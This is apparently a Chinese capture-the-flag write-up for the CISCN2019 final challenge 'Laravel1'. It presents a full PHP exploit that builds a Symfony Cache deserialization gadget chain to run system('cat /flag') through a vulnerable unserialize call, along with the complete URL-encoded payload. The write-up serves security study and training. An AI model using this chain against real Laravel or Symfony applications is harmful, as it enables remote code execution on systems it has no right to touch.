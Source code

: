 # 未完成\[CISCN2019 总决赛 Day1 Web4]Laravel1

## \[CISCN2019 总决赛 Day1 Web4]Laravel1

## 考点

* Laravel代码审计
* Laravel反序列化链

## wp

给了代码，提示源码在`source.tar.gz`

```php
 <?php
//backup in source.tar.gz

namespace App\Http\Controllers;


class IndexController extends Controller
{
    public function index(\Illuminate\Http\Request $request){
        $payload=$request->input("payload");
        if(empty($payload)){
            highlight_file(__FILE__);
        }else{
            @unserialize($payload);
        }
    }
} 
```

下载源码，是个反序列化漏洞，在`composer.json`看到版本是5.8，还用了`symfony`，版本是4.2

exp

```php
<?php
namespace Symfony\Component\Cache{
    final class CacheItem
    {
        protected $expiry;
        protected $poolHash;
        protected $innerItem;
        public function __construct($expiry, $poolHash, $command)
        {
            $this->expiry = $expiry;
            $this->poolHash = $poolHash;
            $this->innerItem = $command;
        }
    }
}
namespace Symfony\Component\Cache\Adapter{
    class ProxyAdapter
    {
        private $poolHash;
        private $setInnerItem;
        public function __construct($poolHash, $func)
        {
            $this->poolHash = $poolHash;
            $this->setInnerItem = $func;
        }
    }
    class TagAwareAdapter
    {
        private $deferred = [];
        private $pool;
        public function __construct($deferred, $pool)
        {
            $this->deferred = $deferred;
            $this->pool = $pool;
        }
    }
}
namespace {
    $cacheitem = new Symfony\Component\Cache\CacheItem(1,1,"cat /flag");
    $proxyadapter = new Symfony\Component\Cache\Adapter\ProxyAdapter(1,'system');
    $tagawareadapter = new Symfony\Component\Cache\Adapter\TagAwareAdapter(array($cacheitem),$proxyadapter);
    echo urlencode(serialize($tagawareadapter));
}
```

然后访问`?payload=O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%00deferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00expiry%22%3Bi%3A1%3Bs%3A11%3A%22%00%2A%00poolHash%22%3Bi%3A1%3Bs%3A12%3A%22%00%2A%00innerItem%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7Ds%3A53%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%00pool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%00poolHash%22%3Bi%3A1%3Bs%3A58%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%00setInnerItem%22%3Bs%3A6%3A%22system%22%3B%7D%7D`

可以得到flag

![](<../../.gitbook/assets/image (20) (1).png>)

## 小结

1. [Laravel5.8.x反序列化POP链](https://xz.aliyun.com/t/5911)
2. [Laravel mockery组件反序列化POP链分析](https://xz.aliyun.com/t/5866)
